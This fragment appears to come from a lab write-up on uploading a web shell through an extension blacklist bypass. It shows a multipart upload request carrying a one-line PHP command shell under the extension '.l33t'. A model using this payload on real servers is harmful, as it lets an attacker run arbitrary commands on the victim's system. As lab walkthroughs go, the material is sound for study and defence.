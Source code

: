 ![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/4.png)


Update cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```
